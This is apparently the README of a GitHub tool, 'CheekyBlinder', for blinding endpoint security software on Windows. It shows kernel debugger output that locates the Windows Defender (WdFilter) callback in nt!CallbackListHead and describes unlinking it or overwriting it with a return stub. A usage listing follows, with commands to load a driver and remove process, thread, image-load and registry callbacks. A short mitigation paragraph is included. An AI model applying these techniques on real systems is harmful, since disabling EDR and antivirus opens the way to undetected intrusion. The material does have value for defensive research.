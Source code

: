 The bytes will be `0x4024448948f88b48` and we need to substract `0x09` to get to the relative offset address of the callback array which is `007482e1` and read it.

<pre>
lkd> dq fffff800`a4baeabc L1
fffff800`a4baeabc  40244489`48f88b48
</pre>

`nt!CallbackListHead` is a linked list where each entry at offset 0x28 is the function being called.

<pre>
lkd> dqs nt!CallbackListHead L2
fffff800`a52f6d90  ffffd182`c338ff70
fffff800`a52f6d98  ffffd182`c7f74850
lkd> dqs ffffd182`c338ff70 L2
ffffd182`c338ff70  ffffd182`c37c2d30
ffffd182`c338ff78  fffff800`a52f6d90 nt!CallbackListHead
</pre>

It only contains one entry, let's check what's at offset 0x28 of that entry

<pre>
lkd> dqs nt!CallbackListHead L2
fffff800`a52f6d90  ffffd182`c338ff70
fffff800`a52f6d98  ffffd182`c7f74850
lkd> dqs ffffd182`c338ff70 L2
ffffd182`c338ff70  ffffd182`c37c2d30
ffffd182`c338ff78  fffff800`a52f6d90 nt!CallbackListHead
lkd> dqs ffffd182`c338ff70 L6
ffffd182`c338ff70  ffffd182`c37c2d30
ffffd182`c338ff78  fffff800`a52f6d90 nt!CallbackListHead
ffffd182`c338ff80  00000000`00000000
ffffd182`c338ff88  01db94d7`cec0b740
ffffd182`c338ff90  00000000`00000000
<mark>ffffd182`c338ff98  fffff800`37f98000 WdFilter+0x28000</mark>
</pre>

We have 2 options to bypass this:

1- Removing the whole link from the linked list => delinking

2- Overwriting the function at offset 0x28 with a KCFG compliant function that just returns rendering the link useless.

## Mitigation
Defenders should not allow any new driver to be loaded onto a system, regardless of whether it is signed or not. If a user requires a driver, it must be reviewed and approved by IT. Security teams should configure their EDR or AV platforms to block any new driver from being loaded unless explicitly approved.

## Usage
<pre>
C:\Users\Vixx\Desktop\Tools\PEN-300\EDR Kernel Bypasses\CheekyBlinder-solution\x64\Release>CheekyBlinder.exe
Usage: CheekyBlinder.exe
 /proc - List Process Creation Callbacks
 /delproc <address> - Remove Process Creation Callback
 /delprocstealth <address> - overwriting the Process Creation function Callback
 /thread - List Thread Creation Callbacks
 /delthread - Remove Thread Creation Callback
 /installDriver - Install the MSI driver
 /uninstallDriver - Uninstall the MSI driver
 /img - List Image Load Callbacks
 /delimg <address> - Remove Image Load Callback
 /reg - List Registry modification callbacks